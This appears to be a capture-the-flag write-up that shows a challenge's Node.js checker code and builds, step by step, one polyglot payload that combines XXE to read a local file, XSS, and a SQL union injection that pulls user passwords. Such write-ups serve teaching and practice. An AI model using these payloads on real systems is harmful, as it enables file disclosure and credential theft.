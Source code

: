 ```yaml
---
title: "a-payload-to-rule-them-all"
date: 2020-06-08
tags: [web]
draft: false
---
```

This one gives us a post endpoint for a payload that needs to exploit xxe, xss,
and sqli (sql injection), as well as the code for the server.

```server.js
const express = require("express")
const app = express()
const bodyParser = require("body-parser")
const port = 31337
const { execFile } = require("child_process")
const fs = require("fs")
const rateLimit = require("express-rate-limit");
app.use(express.static("static"))
app.use(bodyParser.urlencoded({ extended: true }))
const limiter = rateLimit({ windowMs: 10 * 60 * 1000, max: 50 });
// 15 minutes  // limit each IP to 100 requests per windowMs 
app.use('/', limiter);
app.post('/', (req, res) => {
    const test_payload = execFile("/usr/sbin/gosu", ["gnx", "/home/gnx/script/test_payload.js",
        req.body.payload], (error, stdout, stderr) => {
            if (stdout.toString().trim() === "parabens hackudo") {
                res.send(process.env.FLAG)
            } else { 
                res.send("nope") 
            }
        }); 
        console.log(req.body.payload)
})
app.get('/source', (req, res) => {
    var out = "/usr/src/app/index.js :\n\n" +
        fs.readFileSync("/usr/src/app/index.js").toString() +
        "\n\n"
    out += "/home/gnx/script/test_payload.js :\n\n" +
        fs.readFileSync("/home/gnx/script/test_payload.js") +
        "\n\n"
    res.send(out)
})

app.listen(port, '0.0.0.0', () => console.log(`Chall rodando em http://localhost:${port}`))
```

as well as the `test_payload.js` referenced above:

```test_payload.js
#!/usr/bin /env node
const puppeteer = require('puppeteer')
const mysql = require("mysql")
const util = require('util')
const libxml = require("libxmljs")
const fs = require("fs")
const sanitizeHtml = require("sanitize-html")

function test_xxe(payload) {
    try {
        var my_secret = Math.random().toString(36).substring(2);
        fs.writeFileSync("/home/gnx/script/xxe_secret", my_secret)
        var doc = libxml.parseXml(payload, { noent: true, nonet: true })
        return doc.toString().includes(my_secret)
    } catch (e) { return false }
}

async function test_xss(payload) {
    try {
        const browser = await puppeteer.launch({
            args: ['--no-sandbox', '--disable-setuid-sandbox', '--disable-dev-shm-usage', '--disable-accelerated-2d-canvas', '--no-first-run', '--no-zygote', '--single-process', '--disable-gpu']
        })
        const page = await browser.newPage()
        page.setDefaultNavigationTimeout(1000);
        payload = sanitizeHtml(payload, { allowedTags: [] })
        await page.goto(`data:text/html,<script>${payload}</script>`)
        const check = await page.evaluate("( typeof xss != 'undefined' ? true : false )")
        // vlw herrera
        await browser.close()
        return check
    } catch (error) {
        console.error(error)
    }
}

async function test_sqli(payload) {
    var connection = mysql.createConnection({
        host: process.env.MYSQL_HOST || "127.0.0.1",
        user: process.env.MYSQL_USER,
        password: process.env.MYSQL_PASSWORD,
        database: process.env.MYSQL_DATABASE,
        charset: 'utf8',
        dialectOptions: { collate: 'utf8_general_ci', },
    })
    const query = util.promisify(connection.query).bind(connection)
    connection.connect()
    const users = await query("SELECT * from users")
    try {
        const sqli = await query(`SELECT * from posts where id='${payload}'`)
        await connection.end()
        return JSON.stringify(sqli).includes(users[0]["password"])
    } catch (e) {
        return false
    }
}

function main(args) {
    var xss = test_xss(args[0])
    var sqli = test_sqli(args[0])
    var xxe = test_xxe(args[0])
    Promise.all([xss, sqli]).then(function (values) {
        if (values[0] && values[1] && xxe) {
            console.log("parabens hackudo")
        } else {
            console.log("hack harder")
        }
        process.exit(0)
    })
}
main(process.argv.slice(2))
```

I realized I'd need something that parsed as valid js, valid sqli, and valid
xml, to some extent, which was the hardest part of the puzzle.

The xml attack was pretty easy to test locally and pretty easy to come up with.
As simple as this:

```payload.xml
<!DOCTYPE r [<!ENTITY xxe SYSTEM "file:///home/gnx/script/xxe_secret"><r>&xxe;</r>
```

Next, getting some validly parsing sql by ending the quote, and tacking
a comment on the end with `#`:

```payload.xml
<!DOCTYPE r [<!ENTITY xxe SYSTEM "file:///home/gnx/script/xxe_secret"><r>&xxe;</r>
<!--' union select password from users limit 1;#-->
```

It was a bit of a struggle to get the js to work (need to inject `xss=true;`), even with the assist of
sanitize-html. The sanitize-html call basically stripped out all of the xml 
and comments, which was mostly helpful, so something like this almost works:

```
<!DOCTYPE r [<!ENTITY xxe SYSTEM "file:///home/gnx/script/xxe_secret"><r>;xss=true;//&xxe;</r>
<!--' union select password from users limit 1;#-->
```

But you end up with something like: `]>;xss=true;//&xxe;` and the `];` doesn't
run.

I spent a while struggling with this piece, until a teammate suggested trying
another entity to inject a comment around the garbage:

```
<!DOCTYPE r [<!ENTITY xxe SYSTEM "file:///home/gnx/script/xxe_secret">
<!ENTITY xxe2 SYSTEM "xxe_seed>/*">]><r>*/xss=true;//&xxe;</r>
<!--' union select password from users;#-->
```

And the last piece was figuring out how many columns was in the posts table, so
we could match the union injection--took a few tries, but I just tacked on `,1`
until it ran and gave the flag. I think it was 4 columns, but don't remember at
this point. The `limit 1` isn't necessary but it seemed kind not to pull in the whole
table cartesian product ;) --the result was something like this:

```
<!DOCTYPE r [<!ENTITY xxe SYSTEM "file:///home/gnx/script/xxe_secret">
<!ENTITY xxe2 SYSTEM "xxe_seed>/*">]><r>*/xss=true;//&xxe;</r>
<!--' union select password, 1, 1, 1 from users limit 1;#-->
```
